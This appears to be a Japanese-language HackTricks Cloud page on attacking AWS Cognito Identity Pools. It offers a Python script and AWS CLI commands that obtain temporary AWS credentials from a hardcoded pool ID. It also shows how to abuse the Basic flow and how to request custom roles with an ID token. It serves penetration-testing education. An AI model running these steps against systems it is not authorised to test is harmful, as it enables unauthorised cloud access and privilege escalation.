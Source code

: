 # Cognito Identity Pools

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**最新バージョンのPEASSやHackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## 基本情報

Identity Poolを使用すると、ユーザーはAmazon S3やDynamoDBなどのAWSサービスにアクセスするための**一時的なAWS認証情報を取得**できます。Identity Poolは、以下のIdentity Providerを使用してユーザーを認証するために使用できる匿名ゲストユーザーとしてのサポートを提供します。

* Amazon Cognitoユーザープール
* Facebook、Google、Amazonでのソーシャルサインイン、およびAppleでのサインイン
* OpenID Connect（OIDC）プロバイダー
* SAML Identityプロバイダー
* 開発者認証済みのID

### Cognito Sync

Identity Poolセッションを生成するためには、まず**Identity IDを生成**する必要があります。このIdentity IDは、そのユーザーのセッションの**識別子**です。これらの識別子には、最大20のデータセットを持つことができ、1MBのキーバリューペアを格納することができます。

これは、ユーザーの情報を保持するのに**便利です**（常に同じIdentity IDを使用するユーザー）。

さらに、サービス**cognito-sync**は、この情報を**管理および同期**するためのサービスです（データセット内での情報の送信、ストリームおよびSNSメッセージの送信など）。

## IAMロールへのアクセス

### 認証されていない場合

Cognitoアプリで**認証されていないユーザーとしてAWS認証情報を取得**するために、攻撃者が知る必要があるのは**Identity Pool ID**だけであり、この**IDはWeb/モバイルアプリケーションにハードコード**されている必要があります。IDは次のような形式です：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（ブルートフォースできません）。

{% hint style="success" %}
デフォルトで作成される**IAM Cognito未認証ロールの名前は**`Cognito_<Identity Pool name>Unauth_Role`です。
{% endhint %}

ハードコードされたIdentity Pool IDが認証されていないユーザーを許可している場合、次のコマンドでAWS認証情報を取得できます：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
または、次の **aws cli コマンド** を使用することもできます:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
デフォルトでは、未認証のCognitoユーザーは、ポリシーを介して割り当てられた場合でも、**いかなる権限も持つことはできません**。以下のセクションを確認してください。
{% endhint %}

### Enhanced vs Basic Authentication flow

前のセクションでは、**デフォルトの強化認証フロー**に従いました。このフローでは、生成されたIAMロールセッションに**制限のある**[**セッションポリシー**](../../aws-basic-information/#session-policies)が設定されます。このポリシーでは、セッションが[**このリストからのサービスのみを使用**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)することが許可されます（ロールが他のサービスにアクセスできる場合でも）。

ただし、**Identityプールに「Basic (Classic) Flow」が有効になっている場合**、ユーザーはそのフローを使用してセッションを取得でき、そのセッションには**制限のあるセッションポリシーがない**ことがあります。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
この**エラー**が表示される場合は、**基本フローが有効になっていない（デフォルト）**ためです。

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

IAMの資格情報を持っている場合は、[どのアクセス権限を持っているか](../../#whoami)を確認し、[特権を昇格させる](../../aws-privilege-escalation/)ことを試してください。

### 認証済み

{% hint style="info" %}
**認証済みのユーザー**はおそらく**異なる権限**が与えられるため、**アプリ内でサインアップ**できる場合は、それを試して新しい資格情報を取得してください。
{% endhint %}

また、**Identity Pool**にアクセスする**認証済みユーザー向けのロール**も利用可能です。

これには**アイデンティティプロバイダ**へのアクセスが必要な場合があります。もし**Cognitoユーザープール**がアイデンティティプロバイダである場合、デフォルトの動作を悪用して**新しいユーザーを作成**することができるかもしれません。

{% hint style="success" %}
**IAM Cognito認証ロールはデフォルトで** `Cognito_<Identity Pool name>Auth_Role` **と呼ばれます**
{% endhint %}

とにかく、**以下の例**では、Identity Poolにアクセスするために使用される**Cognitoユーザープール**にログイン済みであることを前提としています（他のタイプのアイデンティティプロバイダも設定されている可能性があることを忘れないでください）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 前のコマンドのレスポンスからidentity_idを取得する
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# IdTokenには、ユーザープールグループによってユーザーがアクセスできるロールが含まれています
# 特定のロールに対して資格情報を取得するために--custom-role-arnを使用します
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
ユーザーがログインしているアイデンティティプロバイダやユーザーごとに**異なるIAMロールを設定することが可能**です（クレームを使用）。したがって、同じまたは異なるプロバイダを介して異なるユーザーにアクセスできる場合は、**すべてのユーザーのIAMロールにログインしてアクセスする価値があるかもしれません**。
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksで会社を宣伝**したい場合や、**最新バージョンのPEASSを入手**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)を手に入れましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有しましょう。

</details>
